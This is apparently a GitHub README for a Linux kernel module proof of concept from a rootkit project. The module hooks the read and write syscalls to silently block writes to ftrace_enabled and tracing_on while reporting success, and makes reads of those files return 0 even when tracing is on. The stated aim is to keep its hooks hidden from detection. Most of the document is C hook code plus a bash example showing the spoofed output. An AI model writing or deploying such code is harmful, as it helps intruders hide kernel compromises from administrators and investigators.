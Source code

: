 ## Simple PoC for Silently Blocking All `writes` to `ftrace_enabled` && `tracing_on` as Well as Spoofing the Read from Those Files When Enabled to Appear Off

### Overview
This Linux kernel module ensures that all `write` operations to the files `/proc/sys/kernel/ftrace_enabled` and `/proc/sys/kernel/tracing_on` are silently blocked. Additionally, the module spoofs the read value of these files to appear as `0` when they are actually enabled (`1`), but only once per read attempt to avoid spamming `0`s.

The goal is to maintain the integrity of the hooks while keeping them hidden from detection or tampering. This is achieved through custom hooks implemented for the `read` and `write` syscalls.

---

### Snippet from `hooks/read.h`

```c
// If the current value is "1" change it to "0" once; avoids repeated spoofing.
if (spoof_next_read == 0 && strncmp(kernel_buf, "1", 1) == 0) {
    kernel_buf[0] = '0';
    spoof_next_read = 1; // Ensure spoof happens only once
} else {
    spoof_next_read = 0; // Reset spoof for subsequent reads
}
```

---

### Snippet from `hooks/write.h`

```c
/* Silently blocks writes to ftrace_enabled and tracing_on using the same 
   method employed in clear-taint-dmesg, but adapted for the write syscall. */

if (strcmp(file->f_path.dentry->d_name.name, "ftrace_enabled") == 0 ||
    strcmp(file->f_path.dentry->d_name.name, "tracing_on") == 0) {
        
    fput(file); // Free the file object after verification

    // Allocate a temporary buffer in kernel space
    kernel_buf = kmalloc(B_F, GFP_KERNEL);
    if (!kernel_buf) {
        return -ENOMEM;
    }

    // Copy data from user space to kernel space buffer
    if (copy_from_user(kernel_buf, user_buf, count)) {
        kfree(kernel_buf);
        return -EFAULT;
    }

    // Check for "1" or "0" and handle appropriately
    if (strncmp(kernel_buf, "1", 1) == 0) {
        // ftrace enabled
    } else if (strncmp(kernel_buf, "0", 1) == 0) {
        // ftrace disabled
    }

    kfree(kernel_buf);
    return count; // Simulate a successful write
}
```

---

### Example Usage

<p align="center"><img src=".img/ftrace.jpg"></p>

```bash
echo 0 > /proc/sys/kernel/ftrace_enabled; echo 0 > /sys/kernel/tracing/tracing_on
# Silently blocked; write does not succeed

cat /proc/sys/kernel/ftrace_enabled; cat /sys/kernel/tracing/tracing_on
# Outputs 0 (even if internally it remains enabled)
```

### Extra 

[![Discord](https://img.shields.io/badge/Discord-%235865F2.svg?&logo=discord&logoColor=white)](discord.gg/66N5ZQppU7)
[![C](https://img.shields.io/badge/C-00599C?logo=c&logoColor=white)]()
[![Linux](https://img.shields.io/badge/Linux-FCC624?logo=linux&logoColor=black)]()
